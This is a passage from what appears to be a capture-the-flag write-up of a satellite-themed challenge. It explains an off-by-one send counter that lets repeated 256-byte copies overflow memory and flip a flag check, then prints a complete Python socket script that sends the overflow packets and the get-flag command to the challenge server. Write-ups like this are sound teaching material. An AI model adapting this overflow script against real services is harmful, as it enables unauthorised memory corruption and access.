 If the fragment_id is greater than 0xb we exit the program. We also check the increment_each_send value to see if we have sent 13 times (this is where the error is, they check for 12 and in their python connection you can see the count is set to a max value of 12 but they start their count at 0). Each time we send data it copies 256 bytes from our src to a location in memory. From this we can see that we will need to perform some sort of overflow in the telemetry function in order to set the bool check in the flag function to true.

For this challenge I really wanted to be the one who got first blood so rather than trying to calculate out everything I just decided to send a bunch of \x01's as the payload and ended up modifying their script to look like:

```py
# get all imports
import socket
from ctypes import *
import time

''''Procotol Services'''
bus_service = b'\x01'
payload_service = b'\x02'
telemetry_service = b'\x03'
control_service = b'\x04'
disconnect_service = b'\x05'

'''Protocol fields'''
length = b'\x12'
fragment_id = b'\x00'
data = b'\x01'*256

# create the socker
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# connect to the server
def connect(sock):
    server_address = ("0.cloud.chals.io", 34357)
    sock.connect(server_address)

# call the connection function
connect(sock)

# send our data 13 times to overwrite the bool
count = 0
while count < 13:
    packet = telemetry_service + length + fragment_id + data
    sock.send(packet)
    count = count+1
    time.sleep(0.2)#must keep this delay between packets for tranmission sync with satellite
    
# send the get flag command
packet = control_service + length + b'\x00' + data
sock.send(packet)

# get the return value
count = 0
while count <=3:
    data = sock.recv(74)
    print(data)
    count = count+1
    time.sleep(0.2)#must keep this delay between packets for tranmission sync with
```
